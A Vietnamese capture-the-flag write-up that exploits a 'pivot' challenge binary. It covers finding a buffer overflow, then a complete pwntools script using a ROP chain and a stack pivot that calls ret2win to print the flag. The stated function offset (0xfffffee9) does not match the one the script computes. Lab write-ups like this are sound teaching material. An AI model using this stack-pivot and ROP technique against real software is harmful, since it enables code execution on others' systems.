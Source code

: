 **1. Tìm lỗi**

Chạy thử chương trình ta được

![run.png](photo/run.png)

Ta thấy chương trình cho phép nhập 2 lầ và kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled -> Có thể khai thác bằng lỗi bof

Dùng lệnh file kiểm tra ta có:

![file.png](photo/file.png)

Là file elf 64 bit -> Mở bằng ida64 ta có hàm main như sau:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho phép nhập 64 byte -> Có lỗi bof

Hàm uselessFunction:

![use.png](photo/use.png)

Hàm foothold_function:

![foot.png](photo/foot.png)

Hàm này chỉ in ra 1 chuỗi được gán vào rdi

Hàm free:

![free.png](photo/free.png)

Hàm usefulGadgets:

![gad.png](photo/gad.png)

 - xchg: là một lệnh x86-64 assembly. Nó hoán đổi giá trị của thanh ghi RSP (Stack Pointer) với giá trị của thanh ghi RAX.

Hàm ret2win:

![ret2win.png](photo/ret2win.png)

Hàm này đọc file flag.txt và in ra giá trị flag nên chúng ta cần cố gắng để thực thi được hàm này

**2. Ý tưởng**

Chúng ta cần thực thi hàm foothold_function bởi hàm này cung cấp một offset mà chúng ta sử dụng để tính. Sau khi kiếm được offset trên thì tính toán với địa chỉ được cấp phát bằng lệnh malloc

Thứ tự payload:
 - Lấy địa chỉ pivot
 - Gọi hàm foothold_function
 - Tính toán địa chỉ ret2wwin
 - Đặt địa chỉ ret2win vào rax
 - thực hiện call rax để thực thi ret2win

**3. Viết script**

![ret2win.png](photo/ret2win.png)

Ta có địa chỉ hàm ret2win và foothold_function trong file libpivot.so như trên -> khoảng cách của 2 hàm là: 0xfffffee9

![pop_rdi.png](photo/pop_rdi.png)

Ta có được địa chỉ 0x0000000000400a33 chứa câu lệnh pop_rdi

Ta có được script như sau:

```
from pwn import *

elf = ELF('./pivot')
r = process("./pivot")

r.recvuntil('pivot: ')
pivot = int(r.recvline().strip(), 16)

pop_rax = 0x00000000004009bb
xchg = 0x00000000004009bd
foot_plt = elf.plt.foothold_function
foot_got = elf.got.foothold_function
put_pls = elf.plt.puts
ret2win = 0x0000000000000a81
foothold_function = 0x000000000000096a
add = ret2win - foothold_function
pop_rbp = 0x00000000004007c8
add_rax_rbp = 0x00000000004009c4
pop_rdi = 0x0000000000400a33
call_rax = 0x00000000004006b0
mov_rax = 0x00000000004009c0




payload = p64(foot_plt)
payload += p64(pop_rax)
payload += p64(foot_got)
payload += p64(mov_rax)
payload += p64(pop_rbp)
payload += p64(add)
payload += p64(add_rax_rbp)
payload += p64(call_rax)
r.sendlineafter("> ", payload)

payload = b'a'*40
payload += p64(pop_rax)
payload += p64(pivot)
payload += p64(xchg)
r.sendlineafter("> ", payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
